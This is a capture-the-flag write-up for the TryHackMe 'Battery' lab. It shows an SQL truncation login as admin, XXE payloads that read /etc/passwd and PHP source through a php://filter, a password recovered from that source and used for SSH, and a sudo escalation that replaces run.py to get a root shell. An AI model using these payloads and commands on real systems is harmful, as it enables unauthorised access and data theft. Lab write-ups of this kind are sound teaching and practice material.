## TL;DR

In this challenge we exploit `SQL Truncation` to login as admin. Then, we exploit `XXE` to achieve `LFI` which gives us the source code of `/acc.php`, there on a comment we can find the credentials for user `cyber`.

We login to this user, overrides `run.py`, and get `root` shell. This isn't the indented solution, but it works.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                                  
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)                                                             
| ssh-hostkey:                                                                                                                                               
|   1024 14:6b:67:4c:1e:89:eb:cd:47:a2:40:6f:5f:5c:8c:c2 (DSA)                                                                                               
| ssh-dss AAAAB3NzaC1kc3MAAACBAPe2PVDHBBlUCEtHNVxjToY/muZpZ4hrISDM7fuGOkh/Lp9gAwpEh24Y/u197WBDTihDJsDZJqrJEJSWbpiZgReyh1LtJTt3ag8GrUUDJCNx6lLUIWR5iukdpF7A2Ev
V4gFn7PqbmJmeeQRtB+vZJSp6VcjEG0wYOcRw2Z6N6ho3AAAAFQCg45+RiUGvOP0QLD6PPtrMfuzdQQAAAIEAxCPXZB4BiX72mJkKcVJPkqBkL3t+KkkbDCtICWi3d88rOqPAD3yRTKEsASHqSYfs6PrKBd50
tVYgeL+ss9bP8liojOI7nP0WQzY2Zz+lfPa+d0uzGPcUk0Wg3EyLLrZXipUg0zhPjcXtxW9+/H1YlnIFoz8i/WWJCVaUTIR3JOoAAACBAMJ7OenvwoThUw9ynqpSoTPKYzYlM6OozdgU9d7R4XXgFXXLXrlL0
Fb+w7TT4PwCQO1xJcWp5xJHi9QmXnkTvi386RQJRJyI9l5kM3E2TRWCpMMQVHya5L6PfWKf08RYGp0r3QkQKsG1WlvMxzLCRsnaVBqCLasgcabxY7w6e2EM                                      
|   2048 66:42:f7:91:e4:7b:c6:7e:47:17:c6:27:a7:bc:6e:73 (RSA)                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkDLTds2sLmn9AZ0KAl70Fu5gfx5T6MDJehrsCzWR3nIVczHLHFVP+jXDzCcB075jjXbb+6IYFOdJiqgnv6SFxk85kttdvGs/dnmJ9/btJMgqJI0agbWv
MYlXrOSN26Db3ziUGrddEjTT74Z1kokg8d7uzutsfZjxxCn0q75NDfDpNNMLlstOEfMX/HtOUaLQ47IeuSpaQoUkNkHF2SGoTTpbC+avzcCNHRIZEwQ6HdA3vz1OY6TnpAk8Gu6st9XoDGblGt7xv1vyt0qUd
IYaKib8ZJQyj1vb+SJx6dCljix4yDX+hbtyKn08/tRfNeRhVSIIymOTxSGzBru2mUiO5                                                                                         
|   256 a8:6a:92:ca:12:af:85:42:e4:9c:2b:0e:b5:fb:a8:8b (ECDSA)                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCYHRWUDqeSQgon8sLFyvLMQygCx01yXZR6kxiT/DnZU+3x6QmTUir0HaiwM/n3aAV7eGigds0GPBEVpmnw
6iu4=                                                                                                                                                        
|   256 62:e4:a3:f6:c6:19:ad:30:0a:30:a1:eb:4a:d3:12:d3 (ED25519)                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILW7vyhbG1WLLhSEDM0dPxFisUrf7jXiYWNSTqw6Exri                                                                           
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.7 ((Ubuntu))                                                                                            
|_http-title: Site doesn't have a title (text/html).                                                                                                         
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `battery.thm` to my `/etc/hosts`

### Exploit SQL truncation to login as admin

I started with fuzzing, and find endpoints for regular accounts managing. 
I tried to login with user i created, and got nothing interesting.

```bash
┌──(agonen㉿kali)-[~/thm/Battery]
└─$ ffuf -u 'http://battery.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt,.xml -fc 403       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://battery.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

acc.php                 [Status: 200, Size: 1104, Words: 113, Lines: 66, Duration: 258ms]
admin.php               [Status: 200, Size: 663, Words: 45, Lines: 26, Duration: 160ms]
admin.php               [Status: 200, Size: 663, Words: 45, Lines: 26, Duration: 186ms]
dashboard.php           [Status: 302, Size: 908, Words: 87, Lines: 56, Duration: 172ms]
forms.php               [Status: 200, Size: 2334, Words: 460, Lines: 112, Duration: 255ms]
index.html              [Status: 200, Size: 406, Words: 138, Lines: 25, Duration: 248ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 237ms]
register.php            [Status: 200, Size: 715, Words: 49, Lines: 28, Duration: 266ms]
report                  [Status: 200, Size: 16912, Words: 69, Lines: 21, Duration: 246ms]
scripts                 [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 178ms]
with.php                [Status: 302, Size: 1259, Words: 118, Lines: 71, Duration: 201ms]
:: Progress: [19000/19000] :: Job [1/1] :: 222 req/sec :: Duration: [0:01:43] :: Errors: 0 ::
```

I created the user on `/register.php`, and logged in on `/admin.php`:



This is the dashboard.



I also noticed `/report`, I downloaded this file and got some executable file. I executed `strings` and found some user:
```bash
admin@bank.a


support@bank.a                                                                                                                                                                               
contact@bank.a                                                                                                                                                                               
cyber@bank.a                                                                                                                                                                                 
admins@bank.a                                                                                                                                                                                
sam@bank.a                                                                                                                                                                                   
admin0@bank.a                                                                                                                                                                                
super_user@bank.a                                                                                                                                                                            
control_admin@bank.a
```



I tried my luck with the registration, to exploit SQL Truncation vulnerability.

Here I registered with the username `admin@bank.a     a`:



and then I managed to login with username `admin@bank.a` and the password `g`:



### Exploit XXE in /forms.php to get LFI and credentials for user cyber

Now we can access `/forms.php`:



I tried to create some request, and saw it sends XML structure, maybe it is vulnerable to `XXE Injection`:



I sent this payload and got `LFI`:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
    <root>
        <name>
            bla
        </name>
        <search>
            &test;
        </search>
    </root>
```



I started reading all of the source code of the .php files, and find inside `acc.php` credentials.
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [<!ENTITY test SYSTEM 'php://filter/read=convert.base64-encode/resource=acc.php'>]>
    <root>
        <name>
            bla
        </name>
        <search>
            &test;
        </search>
    </root>
```



Now, we can login with the credentials to user `cyber`.
```bash
cyber:super#secure&password!
```

I grabbed the first flag:



```bash
┌──(agonen㉿kali)-[~/thm/Battery]
└─$ ssh cyber@battery.thm  
cyber@battery.thm's password: # super#secure&password! 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Fri Jan 16 16:11:38 IST 2026

  System load:  0.38              Processes:           110
  Usage of /:   2.4% of 68.28GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.65.146.164
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Nov 17 17:02:47 2020 from 192.168.29.248
cyber@ubuntu:~$ ls
flag1.txt  run.py
cyber@ubuntu:~$ cat flag1.txt 
THM{6f7e4dd134e19af144c88e4fe46c67ea}

Sorry I am not good in designing ascii art :(

```

### Privilege Escalation to Root

I checked for sudo permissions, we can execute `/home/cyber/run.py` as root, with no password:
```bash
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
```

The problem is that we can't read `/home/cyber/run.py`:
```bash
cyber@ubuntu:~$ ls -la /home/cyber/run.py
-rwx------ 1 root root 349 Nov 15  2020 /home/cyber/run.py
```

However, we controls our home folder, let's just delete this `run.py` and create new file that spawns a shell:
```bash
cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
cyber@ubuntu:~$ echo -e 'import os; os.system("/bin/bash")' > run.py
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

and we got our root shell




Let's grab the root flag:
```bash
root@ubuntu:~# cat /root/root.txt                                                                                                                                                         
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


                                                battery designed by cyberbot :)
                                                Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859


THM{db12b4451d5e70e2a177880ecfe3428d}
```

and also grab the user flag from `yash`:
```bash
root@ubuntu:/home/yash# cat flag2.txt 
THM{20c1d18791a246001f5df7867d4e6bf5}


Sorry no ASCII art again :(
```

BTW, this wasn't the intended path, but who cares :D